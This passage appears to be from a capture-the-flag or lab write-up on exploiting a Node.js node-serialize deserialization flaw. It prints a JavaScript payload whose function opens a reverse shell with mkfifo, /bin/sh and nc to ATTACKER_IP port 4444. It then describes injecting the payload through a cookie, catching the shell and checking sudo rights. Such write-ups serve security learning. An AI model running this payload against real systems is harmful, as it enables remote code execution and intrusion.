 ``` js
var serialize = require('node-serialize');

x = {
	username : function(){ require('child_process').execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f", function puts(error, stdout, stderr) {}); }
};

console.log(serialize.serialize(x));
```

We repeat the same steps, making sure to include the `()` to the serialized output so that the function becomes self-invoking.

In the end, I got the following base64-encoded string:

<img style="float: left;" src="screenshots/screenshot12.png">

I replaced my cookie value accordingly:

<img style="float: left;" src="screenshots/screenshot13.png">

With a netcat listener up and running, I submitted the request and successfully opened the reverse shell.

<img style="float: left;" src="screenshots/screenshot14.png">

We're in!

<br>

The first thing I did was to check for our current **sudo privileges**:

<img style="float: left;" src="screenshots/screenshot15.png">
